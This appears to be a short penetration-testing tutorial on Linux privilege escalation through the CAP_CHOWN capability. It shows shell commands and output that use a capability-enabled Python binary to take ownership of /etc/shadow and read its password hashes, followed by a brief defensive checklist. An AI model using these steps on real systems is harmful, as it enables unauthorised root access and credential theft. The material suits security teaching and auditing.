 # Privilege Escalation via CAP_CHOWN

The capability `CAP_CHOWN` allows us to **change the ownership of any file**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_chown+ep ./python3
user@pwn:~$ getcap -r ./python3
./python3 = cap_chown+ep
```

Let's suppose the Python binary has this capability, we can change the owner of the shadow file, change the root password, and escalate privileges:

```shell
user@pwn:~$ cat /etc/passwd | grep ^user
user:x:1000:1000:user,,,:/home/user:/bin/bash
./python3 -c 'import os;os.chown("/etc/shadow",1000,1000)'
```

Now we can read the /etc/shadow file:

```shell
user@pwn:~$ ./python3 -c 'import os;os.chown("/etc/shadow",1000,1000)'
user@pwn:~$ ls -la /etc/shadow
-rw-r----- 1 user user 1610 oct 25 12:40 /etc/shadow
user@pwn:~$ cat /etc/shadow
root:$6$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.:18918:0:99999:7:::
daemon:*:18667:0:99999:7:::
```

# Defense 

Defending against capabilities can be challenging. Here are some key points to consider:

- Avoid using unnecessary capabilities: Only enable capabilities that are essential for the task at hand.
- Ensure capabilities cannot be exploited: Regularly review and audit capabilities to prevent potential abuse.
